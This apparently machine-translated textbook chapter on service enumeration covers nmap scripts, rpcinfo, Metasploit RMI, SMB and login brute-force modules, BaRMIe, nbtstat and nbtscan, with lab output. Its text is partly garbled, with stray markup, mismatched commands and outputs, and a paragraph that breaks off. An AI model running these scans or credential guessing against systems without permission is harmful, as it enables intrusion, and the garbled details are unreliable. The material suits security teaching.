- 服务是必要的，因为它们是工作完成的方式。例如，你无法在没有某个邮件服务器的情况下发送电子邮件，该服务器用于接收消息。攻击者正是利用这一点。那些可能存在漏洞或被用于利用的服务，保证了有一个可以远程访问的应用程序。这并不意味着服务无法防止枚举。这些反测量措施是帮助确保合法用户正在访问或探测服务以获取信息的方法。

到本章结束时，你应该对枚举的概念有扎实的理解，以及可以用来枚举系统中不同资源的工具。其中很多工具是基于 Linux 的，并运行在命令行中，但我们也会查看一些 Windows 工具。

### 服务枚举

当你扫描系统时，`nmap` 始终是你的朋友。这同样适用于服务枚举。这意味着你正在识别目标系统上运行的服务。快速实现这一点的方法是使用 `nmap` 内置的版本扫描功能。在下面的代码片段中，你可以看到一段来自在我的网络中运行 `nmap` 版本扫描的输出结果。版本扫描是通过将 `‑sV` 参数发送到 `nmap` 来执行的。它不仅显示打开的端口，还显示这些端口的位置以及运行在被发现的网络主机上的服务及其版本的具体信息。它通过查看任何应用程序横幅来提取服务名称和版本的详细信息。

### nmap 版本扫描

```
$ sudo nmap -sV 192.168.1.15

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-12 13:44 EST

PORT    STATE  SERVICE VERSION

22/tcp  open   ssh     OpenSSH 7.7p1 Debian 3 (protocol 2.0)

25/tcp  closed smtp

80/tcp  open   http    Greenbone Security Assistant

443/tcp closed https

MAC Address: 0E:76:03:B8:2A:BA (Unknown)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for desktop-3rgc5h2.lan (192.168.86.60)

Host is up (0.025s latency).

PORT    STATE    SERVICE VERSION

22/tcp  filtered ssh

25/tcp  filtered smtp

80/tcp  filtered http

443/tcp filtered https

MAC Address: C4:9D:ED:AB:DD:7A (Microsoft)

Nmap scan report for milobloom.lan (192.168.86.61)

Host is up (0.94s latency).

PORT    STATE  SERVICE VERSION

22/tcp  open   ssh     OpenSSH 7.6 (protocol 2.0)

25/tcp  closed smtp

80/tcp  closed http

443/tcp closed https

MAC Address: B8:09:8A:C7:13:8F (Apple)
```

如你所见，并非所有服务都会提供关于它们的详细信息。我们可以识别服务，但在大多数情况下无法确定其应用程序或版本。在前面的列表中，我们可以看到一小部分系统正在运行安全外壳（SSH）。并非所有的 SSH 服务器都提供版本或甚至协议。幸运的是，我们可以再次使用 `nmap` 获取关于 SSH 的更多详细信息。`nmap` 具有脚本功能，并且有很多脚本可以用于枚举服务以获取更多细节。其中之一是用于枚举 SSH 服务器支持的算法的脚本，即 `ssl‑enum‑ciphers.nse`。

### SSH2 算法枚举

```
$ sudo nmap --script=ssl-enum-ciphers 192.168.1.15

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-12 13:46 EST

Nmap scan report for 192.168.1.15

Host is up (0.073s latency).

Not shown: 997 closed tcp ports (reset)

PORT   STATE SERVICE

22/tcp open  ssh

| ssh2-enum-algos:

|   kex_algorithms: (10)

|       curve25519-sha256

|       curve25519-sha256@libssh.org

|       ecdh-sha2-nistp256

|       ecdh-sha2-nistp384

|       ecdh-sha2-nistp521

|       diffie-hellman-group-exchange-sha256

|       diffie-hellman-group16-sha512

|       diffie-hellman-group18-sha512

|       diffie-hellman-group14-sha256

|       diffie-hellman-group14-sha1

|   server_host_key_algorithms: (5)

|       ssh-rsa

|       rsa-sha2-512

|       rsa-sha2-256

|       ecdsa-sha2-nistp256

|       ssh-ed25519

|   encryption_algorithms: (6)

|       chacha20-poly1305@openssh.com

|       aes128-ctr

|       aes192-ctr

|       aes256-ctr

|       aes128-gcm@openssh.com

|       aes256-gcm@openssh.com

|   mac_algorithms: (10)

|       umac-64-etm@openssh.com

|       umac-128-etm@openssh.com

|       hmac-sha2-256-etm@openssh.com

|       hmac-sha2-512-etm@openssh.com

|       hmac-sha1-etm@openssh.com

|       umac-64@openssh.com

|       umac-128@openssh.com

|       hmac-sha2-256

|       hmac-sha2-512

|       hmac-sha1

|   compression_algorithms: (2)

|       none

|_      zlib@openssh.com

MAC Address: 0E:76:03:B8:2A:BA (Unknown)
```


在输出中，你会看到一系列算法类型。第一组算法是用于密钥交换。其中之一是 Diffie‑Hellman 算法，以 Whitfield Diffie 和 Martin Hellman 之名，他们最先发表了用于密钥交换的算法。密钥交换算法很重要，因为密钥是加密的关键，并且在建立连接时生成。你还可以看到加密算法的列表。大多数是高级加密标准（AES），但你会注意到还有一个名为 ChaCha20 的算法。它是一种流 cipher，类似于 AES，可以让程序在不需要开源加密库的情况下使用加密。最后，还有消息认证码（MAC），用于确保消息没有被篡改或损坏。

当然，`nmap` 可以为你提供一个良好的服务列表和版本号的起点，但这并不总是足够。还有更多可以从不同服务中获取的信息。这正是 `nmap` 可以通过使用随 `nmap` 安装的脚本来帮助的领域。这些脚本可以提取大量信息，例如 SSH 中的算法，这些信息在其他地方很难获得。SSH 可能提供加密服务，但并非所有的加密算法都免受漏洞影响。因此，了解所有服务是有用的，你永远不知道会在哪里发现漏洞。

## 反测量措施

每个服务都有不同的配置设置，可以防止攻击者进行枚举，但从高层面来看，下面的反测量措施应为每个服务考虑：

*   **防火墙** 网络防火墙和主机防火墙都可以用于保护服务，通过阻止不应发送请求的系统发送请求。

*   **身份验证** 强身份验证可以帮助保护某些服务，因为身份验证可能在请求可以发送到服务之前就已经完成。

*   **减少提供的信息** 某些服务允许你配置在握手时提供多少信息——即服务在收到连接请求时向用户问候的信息。

## 远程过程调用

远程过程调用（RPC）是一种服务，它允许远程系统消费该应用程序之外的过程。系统 A 上的程序可以调用另一个系统上的函数或过程。它通过 RPC 协议实现。对本地计算机上的程序而言，调用远程过程就像调用本地过程一样，它存在于同一进程空间中。程序调用该过程，获取信息，然后继续前进。RPC 为两个进程之间的通信提供了方式。*Remote* 通常指远程服务器，但两个本地进程也可以使用 RPC 进行通信。

### SunRPC

-   [进程间通信](https://example.org/interprocess_communication)已经存在数十年。几十年来出现了多种请求-响应协议的实现。Java 的远程方法调用（RMI）是最近的一个例子。在此之前，还有独立于语言实现的通用对象请求框架（CORBA）。有时，使用 RPC 时，你需要本质上是一个目录服务，用于指示不同服务在动态端口上运行的端口。

-   远程过程调用（RPC）的一个常见实现是程序 `portmap`，也称为 `rpcbind`。该程序用于提供已向端口映射服务注册的程序信息，从而提供这些远程过程。端口映射器为服务分配监听端口，并在查询时返回该信息。常见的使用 `rpcbind`/`portmap` 的服务示例包括网络文件服务器（NFS）。

-   提供 `portmap` 或 `rpcbind` 服务的包可能还包含可以通过 RPC 进行通信的实用工具。这通过端口 111 实现。要识别远程系统上的程序及其关联端口，可以使用程序 `rpcinfo`。下面展示了 `rpcinfo` 的使用示例。使用的命令 `rpcinfo -p` 让 `rpcinfo` 探测提供的主机（这里是 IP 地址而非主机名）。

#### rpcinfo 列表

```
kilroy@bobbie $ rpcinfo -p 192.168.86.52

    program vers proto   port  service

     100000    4   tcp    111  portmapper

     100000    3   tcp    111  portmapper

     100000    2   tcp    111  portmapper

     100000    4   udp    111  portmapper

     100000    3   udp    111  portmapper

     100000    2   udp    111  portmapper

     100005    1   udp  43939  mountd

     100005    1   tcp  58801  mountd

     100005    2   udp  46384  mountd

     100005    2   tcp  50405  mountd

     100005    3   udp  49030  mountd

     100005    3   tcp  50553  mountd

     100003    3   tcp   2049  nfs

     100003    4   tcp   2049  nfs

     100227    3   tcp   2049  nfs_acl

     100003    3   udp   2049  nfs

     100227    3   udp   2049  nfs_acl

     100021    1   udp  34578  nlockmgr

     100021    3   udp  34578  nlockmgr

     100021    4   udp  34578  nlockmgr

     100021    1   tcp  39297  nlockmgr

     100021    3   tcp  39297  nlockmgr

     100021    4   tcp  39297  nlockmgr

```

-   前面提到的程序若已在 `rpcbind` 中注册了远程过程，则与 NFS 文件共享服务器关联。`portmapper` 是主要查询的服务，而 `mountd`、`nfs`、`nlockmgr` 等则是 NFS 所必需的组件。NFS 由 Sun Microsystems 开发，`portmapper` 是 Sun 关联的 RPC 实现，有时也称为 sunrpc。例如 Metasploit 中的扫描器可以利用 sunrpc 来识别端口映射器分配的程序端口。

#### Metasploit sunrpc 扫描器

```
msf> use auxiliary/scanner/misc/sunrpc_portmapper

msf auxiliary(scanner/misc/sunrpc_portmapper)> set RHOSTS 192.168.86.52

RHOSTS => 192.168.86.52

msf auxiliary(scanner/misc/sunrpc_portmapper)> run

[+] 192.168.86.52:111 - SunRPC Programs for 192.168.86.52

=================================

Name      Number  Version  Port   Protocol

----      ------  -------  ----   --------

mountd    100005  1        43939  udp

mountd    100005  1        58801  tcp

mountd    100005  2        46384  udp

mountd    100005  2        50405  tcp

mountd    100005  3        49030  udp

mountd    100005  3        50553  tcp

nfs       100003  3        2049   tcp

nfs       100003  4        2049   tcp

nfs       100003  3        2049   udp

nfs_acl   100227  3        2049   tcp

nfs_acl   100227  3        2049   udp

nlockmgr  100021  1        34578  udp

nlockmgr  100021  3        34578  udp

nlockmgr  100021  4        34578  udp

nlockmgr  100021  1        39297  tcp

nlockmgr  100021  3        39297  tcp

nlockmgr  100021  4        39297  tcp

rpcbind   100000  4        111    tcp

rpcbind   100000  3        111    tcp

rpcbind   100000  2        111    tcp

rpcbind   100000  4        111    udp

rpcbind   100000  3        111    udp

rpcbind   100000  2        111    udp

[*] Scanned 1 of 1 hosts (100% complete)

[*] Auxiliary module execution completed

```

-   由于我们正在扫描同一主机，使用 Metasploit 模块得到的结果与 `rpcinfo` 的结果相同是合理的。所有操作仅是向端口映射器进程查询。你可以使用最舒适的工具进行查询。相较于 `nmap`，这些工具有两个优势：第一，通过查询端口映射器可以得到进程名称；第二，除非你明确指定扫描所有端口，否则 `nmap` 会返回所有端口，而 `portmap` 分配的端口范围并不在 `nmap` 默认扫描列表中。

### 远程方法调用（RMI）

Java 程序尤其在 Web 应用领域非常流行。Java 为程序员提供了大量库和接口，可以在自身实现中使用这些库和接口。Java 自身提供了远程过程调用功能，但在 Java 中称为 *remote method invocation*。要让一个程序使用 RMI，系统需要一个名为 `rmiregistry` 的 Java 版端口映射器。使用 RMI 的程序会向 `rmiregistry` 注册自己。这意味着任何人都可以通过 `rmiregistry` 查看提供的服务。`rmiregistry` 程序的响应方式与我们在查询端口映射器时所见类似。

-   RMI 被认为是面向对象的 RPC 版本，这意味着对象在服务器和客户端之间传递。客户端通过实现一个接口（面向对象的类定义）来实现桩（stub）。桩负责与服务器上的骨架（skeleton）通信。编写使用 RMI 的程序时，会使用 RMI 编译器（程序 `rmic`）。用于连接 RMI 注册表并枚举已注册服务的程序不需要知道具体的桩和骨架之间的对象传递细节，因为枚举的目的仅是识别远程系统上的骨架或服务。

-   下面展示了在 Metasploit 中运行 RMI 扫描的示例。你可以看到如何使用 Metasploit 对运行 RMI 的系统进行枚举。

**运行 RMI 扫描器（Metasploit）**

```
msf> use auxiliary/gather/java_rmi_registry

msf auxiliary(gather/java_rmi_registry)> show options

Module options (auxiliary/gather/java_rmi_registry):

   Name   Current Setting  Required  Description

   ----   ---------------  --------  -----------

   RHOST                   yes       The target address

   RPORT  1099             yes       The target port (TCP)

msf auxiliary(gather/java_rmi_registry)> set RHOST 192.168.86.62

RHOST => 192.168.86.62

msf auxiliary(gather/java_rmi_registry)> run

[*] 192.168.86.62:1099 - Sending RMI Header…

[*] 192.168.86.62:1099 - Listing names in the Registry…

[+] 192.168.86.62:1099 - 1 names found in the Registry

[+] 192.168.86.62:1099 - Name HelloServer (HelloImpl_Stub) found on 127.0.1.1:38371

[*] Auxiliary module execution completed

```

-   [运行 `java_rmi_registry` 模块所需的选项很简单。远程端口默认是 1099，这是 `rmiregistry` 监听的端口。如果你认为有其他端口在监听，可以设置 `RPORT` 变量。不过，必需的变量是 `RHOST`。我们将该变量设置为实现了简单 Java RMI 服务器的系统的 IP 地址。你可以看到扫描的结果。根据 RMI 注册表，有一个名为 `HelloServer` 的服务器。它甚至告诉我们，桩的名字是 `HelloImpl`。虽然它是服务器，但注册表称之为桩，因为桩和桩的区别在于对话的结束。`rmic` 为服务器和客户端生成桩。只是把服务器端称为桩可以区分两者。

Metasploit 并不是唯一可以扫描 RMI 服务的方法。如果你稍微查找一下，你可以发现其他程序。其中一个叫做 Barmie，名字被风格化为 BaRMIe 以突出名称中的 RMI。你可以从 GitHub 获取源代码以及已编译好的 BaRMIe 实现。运行程序非常简单。由于它是 Java 程序，你需要通过创建 Java 虚拟机的 Java 程序运行中间代码文件。由于它是 Java 档案（JAR），你需要告诉 Java 它将从其中运行。程序需要知道它正在扫描的主机，所以你需要传入目标的 IP 地址。你可以在下面看到 BaRMIe 的运行示例。

```
root@quiche:~# java -jar BaRMIe_v1.01.jar  192.168.86.62
```

  |</line><line xml:id="c06-line-0158"><![CDATA[ |

   |    |   |

                                                      v1.0

                      Java RMI enumeration tool.

                        Written by Nicky Bloor (@NickstaDB)

 Warning: BaRMIe was written to aid security professionals in identifying the

          insecure use of RMI services on systems which the user has prior

          permission to attack. BaRMIe must be used in accordance with all

          relevant laws. Failure to do so could lead to your prosecution.

          The developers assume no liability and are not responsible for any

          misuse or damage caused by this program.

 Scanning 1 target(s) for objects exposed via an RMI registry…

 [-] An exception occurred during the PassThroughProxyThread main loop.

     java.net.SocketException: Socket closed

 [-] An exception occurred during the ReplyDataCapturingProxyThread main loop.

     java.net.SocketException: Socket closed

 RMI Registry at 192.168.86.62:1099

 Objects exposed: 1

 Object 1

   Name: HelloServer

   Endpoint: 127.0.1.1:38371

   [+] Object is bound to localhost, but appears to be exposed remotely.

   Classes: 3

     Class 1

       Classname: java.rmi.server.RemoteStub

     Class 2

       Classname: java.rmi.server.RemoteObject

     Class 3

       Classname: HelloImpl_Stub

 1 potential attacks identified (+++ = more reliable)

 [---] Java RMI registry illegal bind deserialization

 0 deserialization gadgets found on leaked CLASSPATH


[~] `Gadgets` may still be present despite `CLASSPATH` not being leaked

Successfully scanned `1` target(s) for objects exposed via `RMI`.

我们从运行这个程序中看到几个要点。它比 `Metasploit` 更详细。我们得到了服务器的名称，`HelloServer`。正如与 `Metasploit` 类似的情况，我们看到服务器绑定在本地主机的 `38371` 端口，这是 `rmiregistry` 动态分配的端口。我们还可以看到类的继承树。我们可以看到引用 `java.rmi.server.RemoteStub`、`java.rmi.server.RemoteObject` 和 `HelloImpl.Stub` 类。根据 `BaRMIe`，该服务在远程公开但仅限于本地。这意味着我们存在信息泄露。为了尝试识别该 `RMI` 服务的漏洞并潜在利用这些漏洞，我们需要获得系统访问权限。

在识别 `RMI` 注册表和额外服务的同时，我们还发现目标系统上存在另一个软件。这可能显而易见，但如果你发现 `RMI` 注册表和 `RMI` 服务，你就已经找到了至少有一个 Java 运行时环境（`JRE`）或 Java 开发工具包（`JDK`）的系统。这里并没有透露 `JRE` 或 `JDK` 的版本。然而，近年来 Java 实现中出现了许多漏洞。知道系统上至少有一个 `JRE` 可能为你提供了漏洞线索。

## Server Message Block

你在 Windows 网络中最常见的远程过程调用实现就是 Server Message Block（`SMB`）。`SMB` 协议在考虑其所有使用方式和运作方式时相当复杂。你可能最熟悉的是 `SMB` 用于在网络中共享文件。虽然这确实是 `SMB` 的一个用途，但它并非唯一，甚至在文件共享方面也远不止是传输文件内容。

`SMB` 是一个应用层协议，可以在不同的低层协议之上运行。首先，它可以直接在 `TCP` 上运行，而无需其他会话层协议。如果系统直接在 `TCP` 上运行 `SMB`，你会发现 `TCP` 端口 `445` 打开。`SMB` 也可以在像 `NetBIOS` 这样的会话协议上运行，`NetBIOS` 是 `IBM` 开发的应用编程接口（`API`），用于将输入/输出（`I/O`）能力从本地系统扩展到网络。如果你看到 `UDP` 端口 `137` 和 `138` 打开，你就知道 `SMB` 运行在 `NetBIOS` 之上。但如果你看到 `TCP` 端口 `137` 和 `139` 打开，你就发现 `SMB` 运行在 `NetBIOS over TCP` 之上。请记住，这里的 `NetBIOS` 用于名称服务。

那么，`SMB` 到底有什么用途？`SMB` 用于在 Windows 系统之间进行通信——文件共享、网络管理、系统管理。这可能包括确保系统命名避免冲突。管理工作需要系统向本地网络广播自己，以防止冲突。`SMB` 还必须支持身份验证，以防止系统对整个网络敞开。这意味着 `SMB` 了解用户和组。它还知道共享，即向网络公开的目录。系统必须能够向询问的系统提供它们正在导出的共享列表。这使用户可以查看可用的共享，然后在认证后访问想要的共享。

身份验证并不总是必要的。`SMB` 支持所谓的 `null authentication`（空认证）。这意味着某些函数不需要用户名和密码。系统可以使用空认证请求网络上另一系统的信息，即没有传递凭据。空认证可以让我们在不提供凭据的情况下获取大量系统信息。

我们可以使用多种工具来枚举 Windows 系统的信息。实际上，这不仅限于 Windows 系统，尽管在其他系统上实现 `SMB` 的目的是为了与 Windows 系统互操作。`Samba` 是一个可以在类 Unix 操作系统上安装的包，它提供 `SMB` 以及 `NetBIOS` 命名服务。`Samba` 有两个独立的进程：一个是 `smbd`，负责 `SMB`；另一个是 `nmbd`，负责名称方面的互操作。这意味着即使我们是为了枚举 Windows 系统而查找信息，也可以同时获取类 Unix 系统的信息。

- [使用内置工具开始](https://example.org)是首要步骤。内置工具在 Windows 系统上特别可用，但也有类 Unix 工具。我们还将查看若干为 `nmap` 提供的插件，用于收集信息。`Metasploit` 不意外地拥有若干用于扫描 `SMB` 系统的模块。此外还有其他实用工具可用，我们将进一步介绍其中一些。

### 内置工具

如果你在 Windows 系统上，有若干实用工具可用于通过 `SMB` 收集信息，`Linux` 也有相应的对应工具。需要注意的是，使用内置工具时必须处于同一广播域内。`NetBIOS` 最初是为局域网（`LAN`）设计的，而非面向广域网（`WAN`）的概念。因此，部分功能之所以能工作，是因为系统依赖于向网络广播信息。这意味着在使用这些工具之前，你必须先在本地网络中存在。

通过 `nbtstat` 可以获取 `NetBIOS` 统计信息，从而获取本地网络的相关数据。下面的示例展示了使用 `nbtstat` 获取远程系统信息的方式。使用 `nbtstat -a` 可以查看提供的主机名的名称表。如果仅知道远程系统的 `IP` 地址，则可以使用 `nbtstat -A`。输出会在左侧列出名称列表，随后是一个代码。该代码指示名称所属的上下文，并显示每个名称的状态。

#### nbtstat 输出

```
C:\Users\kilroy> nbtstat -a billthecat

Local Area Connection:

Node IpAddress: [192.168.86.50] Scope Id: []

           NetBIOS Remote Machine Name Table

        Name               Type         Status

     ---------------------------------------------

     BILLTHECAT     <00>  UNIQUE      Registered

     BILLTHECAT     <20>  UNIQUE      Registered

     WORKGROUP      <00>  GROUP       Registered

     MAC Address = AC-87-A3-36-D6-AA                     
```

显示的代码来自 `NetBIOS`，可查询其含义以确定名称所属的上下文。使用 `SMB` 的系统可以在多种上下文中存在。这里所示的系统既是工作站，也是文件服务器，这意味着已启用文件共享。此外，该系统在网络中还充当工作站或客户端。区分这些功能很重要，因为每个系统只能询问其支持的操作类型。技术上说，每一组功能都关联有特定的过程。在对远程系统调用过程发起操作之前，必须先知道该系统提供哪些过程。`nbtstat -a` 本质上提供了这些信息。

目前为止我们仅查询单个主机名在网络上的所有函数（名称）。如果想看到所有通过 `SMB`/`NetBIOS` 通信的主机名，需要使用其他参数。仍可使用 `nbtstat`，但需在命令行中传入不同的参数。我们需要查找已解析的名称。该列表可能来源于广播消息（当没有中央名称数据库时，系统在上线时会广播自身名称并定期更新），也可能来源于 Windows Internet Name Server（`WINS`），它是企业网络中系统名称的中央存储库。Windows 服务器提供 `WINS` 功能，系统会向 `WINS` 注册，从而实现所有名称的解析。

在下面的代码片段中，你可以看到网络上列出的名称。由于网络中没有 Windows 服务器，也没有 `WINS`，这些名称均是通过广播发现的。这些系统均为 `macOS`，但它们通过 `SMB` 在网络中共享文件。要实现这一点，它们必须像任何其他使用 `SMB` 的系统一样行为。

#### 使用 nbtstat 列出已解析的名称

```
C:\Users\kilroy

> nbtstat -r

         NetBIOS Names Resolution and Registration Statistics

         ----------------------------------------------------

         Resolved By Broadcast     = 47

         Resolved By Name Server   = 0

         Registered By Broadcast   = 8

         Registered By Name Server = 0

         NetBIOS Names Resolved By Broadcast

         ---------------------------------------------

                 YAZPISTACHIO   <00>

                 BILLTHECAT     <00>

                 YAZPISTACHIO   <00>

                 YAZPISTACHIO   <00>

                 LOLAGRANOLA    <00>

                 LOLAGRANOLA    <00>

                 YAZPISTACHIO   <00>

                 YAZPISTACHIO   <00>                
```

`nbtstat` 还有其他功能，但它们更多与本地系统的功能相关，与枚举关系不大。虽然 `nbtstat` 功能丰富，但如前所述，它仅在 Windows 系统上可用。如果你使用的是 `Linux` 系统，且已安装 `Samba` 包（提供 `SMB` 通信能力），则可以使用 `nmblookup` 进行名称查询。该工具可用于查询 `WINS` 以及通过广播获取的名称。例如，要获取我们之前对 `billthecat` 的详细信息，可使用 `nmblookup -S -B billthecat`，如下所示。

#### nmblookup 用于枚举

```
kilroy@savagewood$ nmblookup -S -B 192.168.86.255 billthecat

 Can't load /etc/samba/smb.conf - run testparm to debug it

 querying billthecat on 192.168.86.255

 192.168.86.32 billthecat<00>

 Looking up status of 192.168.86.32

      BILLTHECAT      <00> -         H <ACTIVE>

      BILLTHECAT      <20> -         H <ACTIVE>

      WORKGROUP       <00> - <GROUP> H <ACTIVE>

      MAC Address = AC-87-A3-36-D6-AA

```

使用 `‑B` 参数让 `nmblookup` 使用提供的广播地址，即本地网络的广播地址。若要使用 `WINS`，可使用 `‑R` 进行递归查找。`‑S` 标志告诉 `nmblookup` 除了名称状态外，还返回节点状态。正是该标志提供了其他用途。正如之前所示，我们可以看到系统既是工作站（`<00>`），也是文件服务器（`<20>`）。此外，我们还能看到该系统属于工作组 `WORKGROUP`。工作组用于临时的 Windows 网络，这里没有域控制器来管理所有系统。

#### 使用 net 实用程序

Windows 内置的 `net` 实用程序广泛用于多种目的。如果你想连接网络中的共享驱动器，则使用 `net use` 来建立连接。`net` 命令可以通过 `SMB` 消息查询网络。下面的示例展示了 Windows 服务器上工作站服务的统计信息，主要包括网络通信数据，如传输字节数，以及已启动和失败的会话数量。

```
$ sudo nmap --script smb-os-discovery 192.168.1.10

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-12 13:51 EST

Nmap scan report for stevedallas.lan (192.168.86.50)

Host is up (0.00058s latency).

PORT    STATE SERVICE

135/tcp open  msrpc

139/tcp open  netbios-ssn

445/tcp open  microsoft-ds

MAC Address: 46:5E:C8:0A:B7:D1 (Unknown)

Host script results:

| smb-os-discovery:

|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)

|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional

|   Computer name: stevedallas

|   NetBIOS computer name: STEVEDALLAS\x00

|   Workgroup: WORKGROUP\x00

|_  System time: 2021-01-04T20:30:27-06:00

```

```
$ sudo nmap --script smb-enum-shares 192.168.1.10

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-12 13:53 EST

Nmap scan report for stevedallas.lan (192.168.86.50)

Host is up (0.00040s latency).

PORT    STATE SERVICE

135/tcp open  msrpc

139/tcp open  netbios-ssn

445/tcp open  microsoft-ds

MAC Address: 46:5E:C8:0A:B7:D1 (Unknown)

Host script results:

| smb-enum-shares:

|   note: ERROR: Enumerating shares failed, guessing at common ones

(NT_STATUS_ACCESS_DENIED)

|   account_used: <blank>

|   \\192.168.86.50\ADMIN$:

|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED

|     Anonymous access: <none>

|   \\192.168.86.50\C$:

|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED

|     Anonymous access: <none>

|   \\192.168.86.50\IPC$:

|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED

|     Anonymous access: READ

|   \\192.168.86.50\USERS:

|     warning: Couldn't get details for share: NT_STATUS_ACCESS_DENIED

|_    Anonymous access: <none>

```

One of the common share names tried is `IPC$`. This is a share name allowing access to shared pipes, which is a method for interprocess communications. Another share name `nmap` checked for is `C$`. This is an administrative share that is created. Again, older versions of Windows will allow easier access to this share, but since Windows XP, there have been more restrictions on the use of this share. It does enable administrators to function remotely, but accessing it requires more than just login credentials. The login credentials have to be for an administrator.

While `nmap` does have other scripts that can be used against systems running `SMB`, most of them are not for enumeration. Many of them are specific to vulnerability identification or confirmation. Since we are focusing on enumeration, we can put off looking at those other

Windows XP 系统运行的是 `SMB` 版本 `1`，因为版本 `2` 直到 Windows Vista 推出后才出现。根据 `SMB` 版本历史，Windows 7 系统会使用 `SMB` 版本 `2.1`。虽然这看起来像是一个过时的扫描，但拥有旧系统对于练习攻击很有用，因为它们更有可能包含软件的弱版本。

#### SMB 版本扫描与 Metasploit


```
msf auxiliary(scanner/smb/smb_version)> run

 [*] Scanned 26 of 256 hosts (10% complete)

 [*] 192.168.86.26:445 - Host could not be identified: ()

 [*] 192.168.86.27:445 - Host could not be identified: ()

 [*] 192.168.86.32:445 - Host could not be identified: ()

 [*] 192.168.86.41:445 - Host could not be identified: ()

 [+] 192.168.86.49:445 - Host is running Windows XP SP2 (language:English) (name:OPUS-C765F2) (workgroup:WORKGROUP )

 [+] 192.168.86.50:445 - Host is running Windows 7 Professional SP1 (build:7601) (name:STEVEDALLAS) (workgroup:WORKGROUP )

 [*] Scanned 52 of 256 hosts (20% complete)

 [*] 192.168.86.61:445 - Host could not be identified: ()
```

我们也可以使用 Metasploit 来枚举用户。为此，需要使用 `smb_enumusers_domain` 模块。如果你知道一个用户，可以使用用户名和密码。这将让模块能够对系统进行身份验证以获取更多用户。虽然这不是必须的，但如果没有某种形式的身份验证，获得用户列表的可能性会大大降低。幸运的是，还有一个模块可以帮助你至少获取一个用户名和密码。`smb_login` 模块可以用来尝试用户名/密码组合。下面是 `smb_login` 模块的选项列表。

**`smb_login` 模块选项**

```
 Module options (auxiliary/scanner/smb/smb_login):

            Name               Current Setting  Required  Description

            ----               ---------------  --------  -----------

    ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected

    BLANK_PASSWORDS    false            no        Try blank passwords for all users

    BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5

    DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database

    DB_ALL_PASS        false            no        Add all passwords in the current database to the list

    DB_ALL_USERS       false            no        Add all users in the current database to the list

    DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication

    DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user

    PASS_FILE                           no        File containing passwords, one per line

    PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.

    Proxies                             no        A proxy chain of format type:host:port[,type:host:port][…]

    RECORD_GUEST       false            no        Record guest-privileged random logins to the database

    RHOSTS                              yes       The target address range or CIDR identifier

    RPORT              445              yes       The SMB service port (TCP)

    SMBDomain          .                no        The Windows domain to use for authentication

    SMBPass                             no        The password for the specified username

    SMBUser                             no        The username to authenticate as

    STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host

    THREADS            1                yes       The number of concurrent threads

    USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line

    USER_AS_PASS       false            no        Try the username as the password for all users

    USER_FILE                           no        File containing usernames, one per line

    VERBOSE            true             yes       Whether to print output for all attempts
```

使用 `smb_login` 模块，你可以提供包含用户名和密码的文件。模块会尝试使用用户名和密码组合进行身份验证。你还会看到可以让模块尝试将用户名作为密码。这在密码策略中通常被禁止，但如果你遇到没有密码策略的系统，则可以实现用户名和密码相同的情况。

另一种在 SMB 环境中有用的枚举方式是查看共享。虽然共享在企业环境的服务器上很常见，但用户也可能在桌面上启用共享，除非行政措施禁止。他们可能这样做是为了方便在用户之间传输文件。这些本地共享的权限可能较弱，从而更容易获取文件或其他信息。Metasploit 提供了一个模块用于此目的，如下所示：

```
msf6> use auxiliary/scanner/smb/smb_enumshares

msf6 auxiliary(scanner/smb/smb_enumshares)> show options

Module options (auxiliary/scanner/smb/smb_enumshares):

   Name               Current Setting    Required  Description

   ----               ---------------    --------  -----------

   HIGHLIGHT_NAME_PA  username|password  yes       PCRE regex of resource name

   TTERN              |user|pass|Groups            s to highlight

                      .xml

   LogSpider          3                  no        0 = disabled, 1 = CSV, 2 =

                                                   table (txt), 3 = one liner

                                                   (txt) (Accepted: 0, 1, 2, 3

                                                   )

   MaxDepth           999                yes       Max number of subdirectorie

                                                   s to spider

   RHOSTS                                yes       The target host(s), see htt

                                                   ps://github.com/rapid7/meta

                                                   sploit-framework/wiki/Using

                                                   -Metasploit

   SMBDomain          .                  no        The Windows domain to use f

                                                   or authentication

   SMBPass                               no        The password for the specif

                                                   ied username

   SMBUser                               no        The username to authenticat

                                                   e as

   Share                                 no        Show only the specified sha

                                                   re

   ShowFiles          false              yes       Show detailed information w

                                                   hen spidering

   SpiderProfiles     true               no        Spider only user profiles w

                                                   hen share is a disk share

   SpiderShares       false              no        Spider shares recursively

   THREADS            1                  yes       The number of concurrent th

                                                   reads (max one per host)
```

与 `nmap` 类似，Metasploit 还有多个模块可用于针对 SMB 系统进行扫描。其中许多与识别漏洞相关。它还提供了另一个工具，你可以用来收集信息，使用 Metasploit 的优势在于它配备了一个数据库，用于存储信息，使其成为一个良好的记录保存工具，同时也可用于枚举和其他形式的扫描。

### 其他实用工具

Considering the number of devices that use SMB for networking, it's not surprising that there are many tools available for enumerating SMB systems. The program `nbtscan` is one of those. It provides details about systems it finds on the local network, including the NetBIOS name, user, MAC address, and IP address. In the following listing, you can see the output of scanning my home network, identifying every system that has Windows shares available. The scan range has been provided on the command line here, but you can also provide the IP addresses in a file.

#### Scanning a Network with `nbtscan`

```
root@quiche:~# nbtscan 192.168.86.0/24

Doing NBT name scan for addresses from 192.168.86.0/24

IP address       NetBIOS Name     Server    User             MAC address

----------------------------------------------------------------------

192.168.86.0Sendto failed: Permission denied

192.168.86.44    NPI110654                  <unknown>        00:00:00:00:00:00

192.168.86.52    BOBBIE           <server>  BOBBIE           00:00:00:00:00:00

192.168.86.49    OPUS-C765F2  <server>  <unknown>        00:50:56:3b:ac:3e

